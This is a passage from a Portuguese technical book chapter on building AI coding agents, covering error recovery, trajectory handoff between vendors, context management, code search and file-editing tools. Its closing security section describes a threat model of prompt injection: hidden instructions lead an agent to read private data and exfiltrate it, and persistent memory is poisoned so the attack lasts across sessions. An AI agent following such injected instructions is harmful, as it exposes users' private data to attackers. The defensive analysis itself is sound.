Uma terceira categoria de falhas não se manifesta como erro e exige **monitoramento de atividade e integridade** dedicado. O modo de falha mais perigoso de uma conexão de streaming não é a interrupção, que gera um erro imediato, mas o travamento silencioso: a conexão continua estabelecida, mas o fluxo de dados para, como um cano conectado do qual não sai água. Os timeouts dos SDKs muitas vezes abrangem apenas a conexão inicial, não o processo de transferência. Por isso, um agente de produção precisa de um watchdog de inatividade independente — um temporizador que considera a conexão travada se nenhuma nova saída chegar dentro do intervalo definido — para encerrar o stream suspenso e acionar uma nova tentativa após o timeout. Isso pode ser generalizado em um princípio: **toda conexão persistente precisa de um sinal de atividade, não apenas de um timeout de conexão**. O monitoramento de integridade se concentra na estrutura da trajetória: ao detectar uma chamada de ferramenta sem a mensagem de resultado correspondente, o sistema repara o pareamento antes de inserir o contexto, em vez de repassar a anomalia estrutural ao modelo ou ao usuário. Um detalhe de engenharia digno de nota é que alguns agentes de produção operam tanto em modo de produção quanto em modo de coleta de dados de treinamento. No modo de produção, mensagens ausentes podem ser corrigidas com placeholders; no modo de treinamento, o reparo é recusado, pois placeholders sintéticos contaminariam os dados de treinamento. Esse duplo padrão — “tolerante em produção, rigoroso no treinamento” — reflete o profundo acoplamento entre o harness e o treinamento do modelo.

**Recuperação: escalonamento por níveis de visibilidade.** As medidas de recuperação são classificadas conforme sua visibilidade para o usuário; se um nível mais baixo resolver o problema, não se deve avançar para o seguinte:

1. **Nova tentativa silenciosa**. É a ação padrão para erros recuperáveis por nova tentativa. Dois detalhes determinam seu sucesso. Primeiro, deve-se usar recuo exponencial com jitter aleatório para evitar que grandes grupos de clientes repitam as tentativas de forma sincronizada, causando um segundo congestionamento, além de respeitar o tempo de espera sugerido pelo servidor. Segundo, é preciso distinguir chamadas em primeiro plano das chamadas em segundo plano: uma requisição com falha no loop principal deve ser repetida, mas chamadas auxiliares em segundo plano, como geração de títulos e sugestões de entrada, devem ser abandonadas em caso de falha. Caso contrário, as tentativas em segundo plano consumirão a cota do fluxo principal e causarão uma “amplificação de novas tentativas”.
2. **Degradação e continuação**. Quando novas tentativas não funcionam, altera-se a própria requisição antes de tentar novamente. Considere o truncamento da saída, quando a geração é interrompida pelo limite de comprimento: primeiro, a requisição é reenviada silenciosamente com um limite de saída maior; se isso ainda não for suficiente, acrescenta-se uma metainstrução ao final da mensagem para que o modelo continue a geração do ponto em que foi interrompida. Se o modelo principal permanecer sobrecarregado, o sistema recorre a um modelo alternativo, removendo antes do histórico os blocos de formatação proprietários do modelo anterior para que o novo consiga interpretar as mensagens. Quando um modo de alto custo sofre limitação de taxa, o sistema retorna temporariamente ao modo padrão.
3. **Apresentação ao usuário**. O erro só é apresentado depois que todos os meios automáticos se esgotam, acompanhado das ações de recuperação já tentadas.

Os erros da camada de ferramentas seguem outro caminho: **não encerre a sessão; transforme o erro em entrada para o modelo**. Uma chamada alucinada recebe um resultado de erro estruturado informando que a ferramenta não existe; uma falha de validação recebe um erro acompanhado de orientações sobre as restrições de entrada; argumentos malformados — como uma string quando se esperava um objeto — são corrigidos programaticamente antes da execução. Esses erros entram no contexto como resultados comuns de ferramentas, e o modelo se corrige por conta própria na rodada seguinte. Trata-se de uma aplicação do princípio anterior de que “quanto mais estruturado o feedback, melhor”: quanto mais específico for o erro fornecido ao modelo, maior será sua taxa de autocorreção.

O princípio central desta seção é: **a unidade do tratamento de erros não é uma única requisição, mas todo o ciclo de recuperação**. Até que se confirme a impossibilidade da recuperação, erros intermediários não devem ser expostos aos consumidores, sejam eles o usuário ou sistemas downstream inscritos nos eventos. Durante a recuperação, as mensagens de erro são retidas; se ela for bem-sucedida, os consumidores não percebem nada; somente quando todos os recursos falham os erros retidos são apresentados. Essa é a concretização, na engenharia, do princípio de correção do Capítulo 1: “não exponha estados intermediários até que se confirme a impossibilidade da recuperação”.

**Transferência: passar uma trajetória inacabada para outro modelo.** Quando o modelo principal permanece indisponível, um modelo de outro fornecedor precisa concluir a trajetória. O verdadeiro obstáculo não é a diferença entre os endpoints, mas o fato de que parte da trajetória pertence exclusivamente ao fornecedor original. As chamadas de ferramentas e seus resultados têm estruturas diferentes entre fornecedores, mas carregam o mesmo significado; portanto, basta renderizá-los novamente. O raciocínio do modelo é a parte difícil. Em geral, o raciocínio consiste em duas coisas: texto legível e uma credencial anexada pelo fornecedor para comprovar que o raciocínio foi realmente produzido por ele. O texto continua legível para outro modelo, mas a credencial não tem valor nesse ambiente — **uma transferência entre fornecedores pode levar o texto, mas não a credencial**.

Os fornecedores não adotam os mesmos requisitos para as credenciais. No extremo permissivo, nada é validado; no extremo rigoroso, qualquer credencial não emitida pelo próprio fornecedor é rejeitada. Além disso, a credencial não está necessariamente vinculada ao raciocínio; ela pode estar associada à chamada de ferramenta. Por isso, a política aparentemente segura de “basta excluir todo o raciocínio” é justamente o que falha com alguns fornecedores. A transferência precisa ser projetada para o cenário mais rigoroso, com uma alternativa para os casos em que seus requisitos não possam ser atendidos: reescrever as chamadas de ferramentas do histórico em forma de prosa. Com isso, o modelo deixa de tratá-las como ferramentas que ele próprio invocou, mas ao menos consegue prosseguir.

Disso resulta um princípio de projeto: uma trajetória não deve ser armazenada no formato de comunicação de um único fornecedor, mas em um formato neutro. Cada segmento de raciocínio é dividido em texto portável e uma credencial não portável; uma chamada de ferramenta registra apenas o nome e os argumentos, e os identificadores são regenerados para o fornecedor de destino quando a requisição é renderizada. Ao trocar de fornecedor, a credencial é sempre descartada, e o texto é transferido como conteúdo comum, em vez de ser inserido novamente no campo usado pelo fornecedor de destino para armazenar o raciocínio. O resumo de raciocínio retornado por um fornecedor é justamente a cópia portável destinada a essa situação: basta preservá-lo, sem precisar chamar novamente um modelo para compactar o conteúdo. O valor de uma trajetória neutra tampouco se limita ao failover: as reproduções de avaliações do Capítulo 7, a construção de amostras de treinamento do Capítulo 8 e a extração de experiências do Capítulo 9 dependem do mesmo artefato.

> **Experimento 5-1 ★★★: Transferência de trajetória entre fornecedores**
>
> **Objetivo do experimento**: Verificar se um formato neutro de trajetória permite que uma trajetória parcialmente concluída por um agente seja finalizada pelo modelo de outro fornecedor e quantificar os respectivos custos da “transferência literal” e da “remoção total”.
>
> **Abordagem técnica**: Use uma tarefa que exija várias rodadas de chamadas de ferramentas. No meio da execução, injete respostas consecutivas de limitação de taxa e sobrecarga para o fornecedor atual; depois que o circuit breaker for acionado, troque para outro fornecedor e prossiga. Armazene a trajetória em um formato neutro, no qual o raciocínio é dividido em texto portável e uma credencial não portável, enquanto a chamada de ferramenta registra apenas o nome e os argumentos. Compare três tratamentos: **transferência literal**, que move as mensagens do fornecedor original sem alterações para a estrutura do novo fornecedor; **remoção**, que exclui todo o raciocínio e todas as credenciais; e **formato neutro**, que descarta a credencial e transfere o texto, ou o resumo de raciocínio retornado pelo fornecedor, como conteúdo comum, regenerando os identificadores para o fornecedor de destino e reescrevendo as chamadas do histórico em forma de prosa quando o destinatário exigir uma credencial. Escolha três fornecedores com formatos de comunicação diferentes e realize trocas entre cada par.
>
> **Critérios de aceitação**: Preserve a resposta bruta da primeira requisição após cada troca; uma falha na transferência literal deve ser um erro real do fornecedor, nunca uma simulação. Exija que o tratamento neutro não produza erros de API em nenhum par de fornecedores e registre fielmente em quais pares os outros dois tratamentos falham e com qual erro. Compare os três quanto à conclusão da tarefa, à frequência com que a mesma ferramenta é chamada novamente após a troca — identificada pela impressão digital composta pelo nome da ferramenta e pelos argumentos — e ao número adicional de rodadas e tokens necessários para concluir a tarefa após a troca. Se o tratamento neutro não superar a remoção quanto às chamadas redundantes, registre esse resultado com a mesma fidelidade.

> **Experimento 5-2 ★★: retomada após a interrupção da saída**
>
> **Objetivo do experimento**: comparar as diferenças de custo, correção e efeitos colaterais entre reenviar toda a rodada e continuar usando a saída parcial como prefixo.
>
> **Abordagem técnica**: interromper a conexão em três pontos de uma resposta transmitida por streaming: no meio do raciocínio, no meio do texto e no meio dos argumentos de uma chamada de ferramenta. Usar três estratégias de recuperação: descartar o trecho incompleto e reenviar toda a rodada; inserir o trecho como a última mensagem do assistant e pedir ao modelo que continue a partir dele — alguns fornecedores oferecem suporte nativo, outros exigem que a mensagem seja explicitamente marcada como pendente de continuação e, na ausência dessa interface, deve-se recorrer à estratégia seguinte —; acrescentar uma metainstrução para continuar a partir do ponto de interrupção. Uma chamada de ferramenta incompleta não pode ser reenviada em sua estrutura nativa; primeiro, ela precisa ser convertida em texto para que o modelo a complete e, após a concatenação, deve ser novamente analisada e validada. Se uma ferramenta presente no trecho incompleto já tiver sido executada antecipadamente durante o streaming, eliminar duplicidades pelo fingerprint da chamada antes de continuar, a fim de evitar a repetição do efeito colateral.
>
> **Critérios de aceitação**: repetir várias vezes cada um dos três pontos de interrupção e informar, para cada estratégia, a taxa de recuperação, a economia de tokens de saída em relação ao reenvio de toda a rodada, a taxa de validade e a correção semântica dos argumentos completados — é fácil a concatenação introduzir espaços indevidos ou caracteres duplicados, e ser válido não significa estar correto —, além do número de efeitos colaterais repetidos. Registrar também quais pontos de interrupção não podem ser reproduzidos em determinados fornecedores e se a estratégia alternativa funciona.

**Encerramento: toda estratégia de recuperação precisa de um limite.** Os próprios mecanismos de recuperação podem falhar; portanto, cada estratégia deve ter um limite explícito de tentativas: desistir da compactação do contexto após várias falhas consecutivas; recorrer a uma consulta humana após falhas repetidas do classificador de permissões; e limitar a continuação da saída a um número fixo de tentativas. De onde vêm esses limites? De dados de produção, não de suposições. Considere o circuit breaker de compactação do Claude Code: o limite de três falhas consecutivas vem de estatísticas de sessões reais. Em certa ocasião, uma única sessão falhou mais de três mil vezes seguidas nessa mesma estratégia de recuperação, e apenas essas tentativas inúteis desperdiçavam cerca de 250 mil chamadas de API por dia em todo o mundo; mais de mil sessões tiveram sequências superiores a 50 falhas consecutivas. Três é o ponto de inflexão empírico entre “a grande maioria das falhas se recupera antes disso” e “novas tentativas praticamente não têm chance de sucesso”.

Mais insidiosa que uma interrupção pontual é a **espiral da morte**: a própria lógica acionada no caminho de erro chama o LLM, falha novamente e desencadeia uma reação em cadeia. Um caso real ocorreu assim: o agente parou devido a um estouro de contexto, o que acionou um hook de encerramento — lógica de limpeza executada automaticamente quando o agente termina — para “fazer commit do código ao sair”; o hook chamou o LLM para gerar uma mensagem de commit, o contexto estourou novamente e o hook foi acionado outra vez. A proteção tem duas partes: desabilitar, no caminho de erro, toda lógica de efeito colateral que volte a chamar o modelo — é preferível perder uma vez um recurso auxiliar, como a extração automática de memória — e usar um contador de profundidade de recursão para detectar e interromper qualquer reação em cadeia residual. Por fim, acima de todos os mecanismos automáticos, devem existir condições globais de encerramento e escalonamento: número máximo de rodadas, limite de orçamento da sessão e escalonamento para intervenção humana quando as falhas consecutivas ultrapassarem o limite.

### Técnicas de implementação para agentes de programação

O fluxo de trabalho descrito acima representa o cenário ideal. Para fazê-lo funcionar de fato na prática, são necessárias algumas técnicas concretas de implementação que aumentem a velocidade de resposta e reduzam o consumo de contexto sem comprometer a qualidade do raciocínio. São aplicações ao domínio da programação das técnicas gerais para agentes discutidas nos Capítulos 2 e 4.

**Chamadas de ferramentas em paralelo, execução por streaming e interrupção em cascata.**

Implementações tradicionais de agentes costumam operar de modo serial: geram uma chamada de ferramenta, executam-na, obtêm o resultado e só então decidem a próxima etapa. Essa fila estrita desperdiça muito tempo.

Agentes de programação modernos devem aproveitar plenamente as respostas por streaming. O Capítulo 2 apresentou esse mecanismo ao discutir a ordem de saída do modelo: assim que os parâmetros da primeira chamada de ferramenta forem totalmente gerados e passarem pela validação, a execução poderá começar de imediato, sem esperar que o modelo gere as chamadas seguintes. Por exemplo, se em uma única inferência o modelo precisar produzir três chamadas de ferramentas — pesquisar código, verificar arquivos de configuração e ler logs —, a primeira chamada poderá ser iniciada assim que seus parâmetros estiverem completos e validados, em paralelo à geração das outras duas. Chamadas independentes também podem ser executadas em paralelo, em vez de aguardar em uma fila. Essa sobreposição reduz significativamente a latência de ponta a ponta e torna as respostas do agente mais ágeis.

O outro lado da execução paralela é o tratamento de falhas. A definição de cada ferramenta deve declarar se ela admite execução concorrente — o padrão é não admitir, por segurança. Quando uma chamada falhar, um mecanismo de interrupção em cascata deve encerrar as demais chamadas iniciadas no mesmo lote que dependam do resultado dela, sem afetar chamadas independentes nem a operação principal. Essa é uma implementação concreta do princípio de “controle dos limites de falha” apresentado na seção sobre engenharia de harness.

**Gerenciamento minucioso do contexto.**

O desafio fundamental dos agentes de programação é que as bases de código costumam ser grandes, enquanto a janela de contexto do modelo é limitada. Mesmo que modelos avançados aleguem oferecer suporte a milhões de tokens, inserir toda a base de código no contexto não é econômico nem necessário. O gerenciamento inteligente do contexto precisa atuar em vários níveis.

Na leitura de arquivos, o agente não deve sempre ler todo o conteúdo. Para arquivos grandes, a ferramenta deve permitir a leitura de intervalos específicos de linhas — por exemplo, apenas as linhas 100 a 150, em vez de carregar um arquivo com milhares de linhas. Mais importante ainda, o conteúdo retornado deve incluir a numeração das linhas: cada linha de código deve ser prefixada com seu número real. Esse recurso aparentemente simples tem enorme valor: o modelo pode fazer uma referência precisa à “linha 42 de `src/main.py`”, reduzindo ambiguidades e tornando as operações posteriores de edição mais confiáveis.

Na execução de comandos, a saída do terminal também exige cuidado. A compilação ou os testes podem gerar milhares de linhas. Injetar todo esse conteúdo no contexto esgota rapidamente o orçamento. O mecanismo de truncamento e persistência de saídas longas, apresentado no Capítulo 4, é amplamente aplicado nesse caso: preservam-se as primeiras linhas da saída, que normalmente contêm o contexto do erro, e as últimas, que costumam trazer seu resumo; o trecho intermediário é substituído por uma linha indicativa, com a informação de que a saída completa foi salva em um arquivo temporário para consulta sob demanda.

**Injeção dinâmica de informações do ambiente.**

Esta é uma aplicação concentrada, nos agentes de programação, da técnica de barra de status do agente apresentada no Capítulo 2. Ao contrário dos agentes de propósito geral, os agentes de programação dependem muito do estado do ambiente de execução. Antes de cada inferência, as seguintes informações essenciais do ambiente devem ser inseridas no fim do contexto como uma barra de status do agente:

- **Diretório de trabalho atual**: garante que as referências a caminhos estejam corretas
- **Branch do Git**: indica se o trabalho está sendo feito na branch principal ou em uma branch de funcionalidade
- **Histórico recente de commits**: permite compreender a evolução do projeto
- **Resumo das alterações preparadas e não preparadas para commit**: informa quais modificações já foram feitas

Essas informações não devem ser codificadas diretamente em prompts de sistema estáticos, pois isso prejudicaria a eficiência do cache KV. Em vez disso, devem ser geradas dinamicamente e inseridas de forma incremental como uma barra de status do agente. Assim, o agente adquire “percepção do ambiente”, e cada decisão passa a se basear em uma compreensão precisa do estado atual, não em suposições desatualizadas.

**Persistência do estado no ambiente de execução de comandos.**

Ao interagir com código, muitas operações dependem do estado do ambiente: mudar de diretório, ativar ambientes virtuais, definir variáveis de ambiente e iniciar serviços em segundo plano. Se cada comando for executado em um shell novo, todo esse estado será perdido. O agente acaba de usar `cd` para acessar o diretório do projeto, mas o comando seguinte começa novamente no diretório padrão do shell, obrigando-o a repetir a mesma configuração. Pior ainda: os efeitos de algumas operações, como a ativação de um ambiente virtual do Python, só valem na sessão atual do shell e não podem ser transferidos entre sessões.

Por isso, deve-se manter uma sessão persistente do terminal, criada quando o agente é iniciado e mantida ativa durante toda a interação. Cada comando é executado nesse terminal compartilhado, preservando o diretório de trabalho, as variáveis de ambiente e o estado da sessão. Esse design é mais compatível com os hábitos de trabalho de desenvolvedores humanos, que normalmente usam uma janela de terminal de longa duração. Evidentemente, o agente também deve conservar a capacidade de iniciar terminais isolados para executar tarefas em paralelo, mas a sessão persistente deve ser o modo padrão.

**Mecanismo de feedback sintático imediato.**

Isso demonstra, mais uma vez, o valor da técnica de barra de status do agente. Depois de modificar o código, o agente não deve esperar o usuário solicitar explicitamente os testes para verificar a sintaxe. Uma abordagem mais eficiente é fazer a camada de ferramentas executar automaticamente o linter ou verificador de sintaxe correspondente assim que a gravação do arquivo for concluída e apresentar os resultados ao agente como parte do valor retornado pela ferramenta. Se for detectado um erro de sintaxe, o agente verá imediatamente as informações detalhadas na rodada de inferência seguinte, da mesma forma que um IDE sinaliza na hora um parêntese sem correspondência. Esse mecanismo de feedback imediato reduz significativamente o custo da correção, pois permite ao agente corrigir o erro no momento em que ele é introduzido, sem esperar a execução dos testes para descobri-lo.

Essas cinco técnicas de implementação — paralelismo e streaming, gerenciamento de contexto, percepção do ambiente, persistência do estado e feedback imediato — formam, em conjunto, a base técnica de um agente de programação eficiente. Não são otimizações isoladas, mas decisões de design que se reforçam mutuamente e apontam para um único objetivo: permitir que o agente trabalhe com a mesma fluidez de um desenvolvedor experiente.

### Ferramentas de busca em agentes de programação

Localizar código relevante em uma grande base de código é o ponto de partida do trabalho de um agente de programação. A Figura 5-3 compara várias ferramentas de busca complementares e mostra como um agente de programação maduro deve escolher o método de recuperação de acordo com a natureza da tarefa.



**Correspondência de conteúdo com expressões regulares** (grep/ripgrep): é o método de busca mais tradicional, que examina o conteúdo dos arquivos linha por linha em busca de padrões. Quando o agente sabe qual texto exato procurar — nomes de funções, nomes de variáveis ou mensagens de erro —, consegue localizar todas as ocorrências com rapidez e precisão. O poder expressivo das expressões regulares — uma sintaxe que usa símbolos especiais para descrever padrões de texto; por exemplo, `def handle.*` corresponde a todas as definições de função iniciadas por `handle` — permite capturar padrões complexos. Assim, é possível buscar não apenas texto literal, mas também trechos de código que seguem determinada estrutura. Na prática, também é recomendável oferecer filtros por tipo de arquivo — buscar apenas em arquivos Python — e por padrão de caminho — excluir diretórios de testes — para reduzir o ruído. A limitação fundamental é que esse método encontra apenas correspondências textuais e não compreende a semântica: uma busca por “autenticação de usuário” não encontra uma função que trate da lógica de login se ela não contiver a palavra “autenticação”.

**Correspondência de padrões de nomes de arquivos** (glob): ignora o conteúdo dos arquivos e busca apenas, na estrutura de caminhos do sistema de arquivos, aqueles que correspondem a um padrão. Por exemplo, `**/*.test.ts` encontra recursivamente todos os arquivos de teste TypeScript, enquanto `src/components/**/Button.tsx` procura Button.tsx em qualquer nível abaixo de components. Esse método é muito mais rápido que a busca por conteúdo, pois não precisa abrir nem ler os arquivos, e constitui o primeiro passo do agente ao explorar a estrutura de um projeto: uma varredura rápida de todo o sistema de arquivos permite delinear como o projeto está organizado.

**Busca semântica de código**: ao contrário dos dois primeiros métodos, baseados em correspondências exatas, procura compreender o “significado” da consulta e do código. Para isso, precisa resolver dois problemas centrais:

- **Segmentação sensível à estrutura**: o código tem uma estrutura sintática rígida e deve ser dividido em unidades semânticas completas, como funções, classes e métodos, em vez de ser recortado arbitrariamente por um número fixo de caracteres.
- **Recuperação híbrida** — essa pilha tecnológica é apresentada em detalhes no Capítulo 3: embeddings vetoriais — embeddings densos — são eficazes para encontrar códigos semanticamente semelhantes, mas redigidos de forma diferente; por exemplo, uma busca por “verificar a identidade do usuário” pode encontrar uma função chamada `check_credentials`. Já a correspondência por palavras-chave se destaca na busca exata por nomes de funções e variáveis. As duas abordagens são executadas em paralelo, e os resultados são combinados e ordenados por um reranker — um codificador cruzado que realiza uma classificação detalhada da relevância dos resultados candidatos —, proporcionando uma cobertura complementar.

A busca semântica é particularmente adequada para tarefas exploratórias, como encontrar, em uma base de código desconhecida, trechos relacionados à “interação com o banco de dados” ou ao “tratamento da validação das entradas do usuário”.

No entanto, há uma clara divergência no setor quanto à conveniência de criar índices de embeddings para a busca semântica. Agentes executados em terminal, como o Claude Code, deliberadamente **não criam índices de embeddings** e dependem apenas de grep + glob agênticos para fazer buscas sob demanda. Com isso, evitam tanto a manutenção de índices que ficam desatualizados à medida que o código evolui quanto toda a infraestrutura necessária para indexação. Ferramentas integradas a IDEs, como o Cursor, adotaram inicialmente a estratégia oposta: aceitaram o custo de criar índices para obter **recuperação semântica entre arquivos**, usando índices de embeddings para encontrar rapidamente, em grandes bases de código, trechos semanticamente relacionados, mas com vocabulário diferente. Atualmente, IDEs como o Cursor também passaram a usar buscas sob demanda com grep + glob.

**Busca de definições e referências no nível de símbolos**: esse método usa recursos semelhantes aos de uma IDE, como “ir para a definição” e “localizar todas as referências”, para distinguir a definição de um símbolo de seus usos. Por exemplo, identifica `authenticate` na linha 42 como a definição de uma função e sua ocorrência na linha 189 como uma chamada, enquanto a busca textual apenas encontra todas as linhas que contêm essa string. Hoje, os principais agentes de programação não adotam essa abordagem.

Esses quatro métodos formam um conjunto complementar de ferramentas e costumam ser combinados na prática: primeiro, usa-se a busca semântica para encontrar os módulos relevantes; depois, expressões regulares para localizar com precisão linhas específicas de código; por fim, a busca de símbolos para rastrear a cadeia de chamadas. Trata-se de uma estratégia progressiva, “do geral ao específico, da semântica à sintaxe”.

### Ferramentas de edição de arquivos em agentes de programação

A dificuldade da edição de arquivos não está na operação em si, mas em como fazer um LLM informar ao sistema, de modo eficiente e confiável, “o que alterar e como alterar”. A Figura 5-4 compara cinco métodos de edição de arquivos e expõe a tensão fundamental entre a expressão em linguagem humana e a execução precisa pela máquina.



**Descrição das diferenças + Apply Model**: o modelo não especifica diretamente como editar o arquivo; em vez disso, gera uma descrição das alterações. Ela pode ser um texto de diferenças semelhante a um git diff — o formato produzido pelo comando `git diff`, que mostra “quais linhas foram excluídas e quais foram adicionadas” — ou um esqueleto de código com marcadores de omissão, usando comentários como “permanece inalterado aqui” para suprimir as partes não modificadas. Essa descrição é então encaminhada a um “modelo de aplicação” especializado — normalmente outro LLM, menor e mais rápido —, responsável por combiná-la com o arquivo original e produzir o novo arquivo completo. Essa separação de responsabilidades permite que o modelo principal se concentre na lógica de alto nível do código, enquanto o modelo de aplicação cuida das operações textuais de baixo nível. A fragilidade de uma implementação simples está na etapa de combinação: quando há pequenas divergências entre a descrição das alterações e o código real do arquivo, é preciso determinar se ambos se referem ao mesmo local; quando existem vários trechos de código semelhantes, a alteração pode ser aplicada no lugar errado. O Cursor é um exemplo da evolução contínua dessa abordagem: o modelo principal gera um esqueleto de código com marcadores de omissão; um pequeno modelo fast-apply, treinado especificamente para essa tarefa, reescreve o arquivo completo; e a decodificação especulativa — que usa o conteúdo original do arquivo como rascunho para verificação paralela — eleva a velocidade de combinação a milhares de tokens por segundo. O investimento em engenharia conferiu confiabilidade e velocidade a essa abordagem.

**String antiga → string nova**: abordagem adotada pelo Claude Code. O modelo fornece uma string antiga — o texto original a ser substituído — e uma string nova — o texto que a substituirá —, e o framework realiza uma operação simples de busca e substituição. A vantagem está na previsibilidade e na transparência: se a string antiga existir no arquivo e for única, a operação terá sucesso; caso contrário, falhará. Não há ambiguidade. Em contrapartida, para excluir grandes blocos de código, é necessário reproduzir integralmente todo o conteúdo original; a divergência de um único caractere faz a correspondência falhar. Quando o mesmo código aparece várias vezes, é preciso fornecer mais contexto para eliminar a ambiguidade.

**Localização por números de linha** (números de linha antigos → string nova): o modelo especifica “exclua as linhas X a Y e insira o novo conteúdo”. Os números de linha são precisos e inequívocos, e a exclusão de grandes blocos exige apenas dois números. Contudo, o modelo tende a cometer erros ao “contar” linhas, sobretudo em arquivos muito longos. Na prática, esse problema é atenuado com a inclusão do número em cada linha durante a leitura do arquivo. Ainda assim, os números das linhas subsequentes mudam após cada edição, o que limita a execução paralela de várias alterações.

**Comandos de edição semelhantes aos do Vim**: inspirados no sistema de comandos do editor Vim, oferecem operações variadas, como copiar, recortar e colar. São muito eficientes para reorganizar código, como ao mover uma função de um local para outro. No entanto, a sintaxe dos comandos impõe um esforço real de aprendizado: os modelos mais avançados conseguem usá-la bem, enquanto modelos menores apresentam uma taxa de erros nitidamente maior. Essa abordagem também não é adequada quando o modelo produz vários comandos de edição após uma única rodada de raciocínio, pois cada edição feita no Vim altera o conteúdo do arquivo e os números de linha, e é muito difícil para o modelo calcular antecipadamente a numeração resultante. Há ainda uma questão mais profunda: editores como o Vim foram projetados para humanos, e **um humano precisa observar continuamente o estado atual para então planejar uma próxima operação simples**, como escrever uma linha de código ou excluir algumas linhas. Já **um modelo trabalha refletindo por um período relativamente longo e depois executando, em lote, operações consideravelmente complexas**, como escrever centenas de linhas de código de uma só vez.

**Correspondência pelo início e pelo fim da string** (início + fim da string antiga → string nova): pode ser vista como um aperfeiçoamento da substituição de strings antigas. O modelo não precisa reproduzir toda a string antiga; basta fornecer as primeiras e as últimas linhas do conteúdo a ser excluído, omitindo a parte intermediária. O framework localiza a região de substituição usando esse par de início e fim, desde que a combinação seja única no arquivo. Esse método alia a confiabilidade da substituição textual à eficiência da abordagem baseada em números de linha: ao excluir grandes blocos de código, não é necessário reproduzir centenas de linhas do código original, apenas indicar os limites. Ao mesmo tempo, como a correspondência continua baseada no conteúdo, e não em números de linha abstratos, o risco de erro do modelo é relativamente baixo.

### Segurança para agentes de programação

Esta seção organiza as defesas do agente de programação em uma linha narrativa coerente: primeiro, delineamos o **modelo de ameaças** — quais riscos são mais letais; depois, tratamos do **isolamento como última linha de defesa** — saída de rede, sistema de arquivos e limites de recursos no sandbox; em seguida, abordamos a **defesa durante a execução** — análise semântica de comandos e execução especulativa, que torna as verificações de segurança “invisíveis”; por fim, chegamos à **confiança e lealdade** — a quem o agente serve em uma delegação com várias partes e por que softwares gerados dinamicamente exigem que a fronteira de confiança desça até a camada de dados. As discussões sobre modelo de ameaças, lealdade e fronteira de confiança se aplicam a todos os agentes; o sandbox e a análise de comandos são aspectos específicos dos agentes de programação.

Um agente de programação tem permissão para ler e gravar arquivos, executar comandos e acessar a rede. Isso significa que, se receber instruções maliciosas por injeção, poderá causar danos irreversíveis. O desenvolvedor e pesquisador independente Simon Willison resumiu esse risco na célebre “Tríade Letal”:

1. **Acesso a dados privados** — O agente pode ler arquivos do usuário e gerenciadores de senhas.
2. **Exposição a conteúdo não confiável** — E-mails e páginas da web processados podem conter cargas maliciosas.
3. **Capacidade de comunicação externa** — O agente pode enviar e-mails e executar comandos.

Assim se fecha o ciclo de ataque: instruções maliciosas ocultas em conteúdo não confiável chegam ao agente, induzem-no a ler dados privados e, então, a exfiltrá-los por canais externos. A presença dos três elementos já é perigosa por si só, sem nenhuma condição adicional. A partir disso, o autor acrescenta uma quarta dimensão: a **memória persistente**. Ela não constitui uma quarta condição necessária em paralelo, mas funciona como amplificador de ataques: um invasor pode gravar vieses aparentemente inofensivos ou instruções maliciosas na memória de longo prazo do agente, onde permanecem latentes entre sessões até serem acionados no momento oportuno, transformando um ataque isolado em uma ameaça duradoura.

Esses quatro pontos podem ser resumidos em quatro tipos de fronteira: a fronteira dos dados, a fronteira de confiança da entrada, a fronteira de impacto da saída e a fronteira entre sessões. Um agente local com permissões irrestritas, como o OpenClaw, reúne as quatro dimensões de risco; por isso, a proteção de segurança é um desafio central que agentes desse tipo precisam enfrentar.

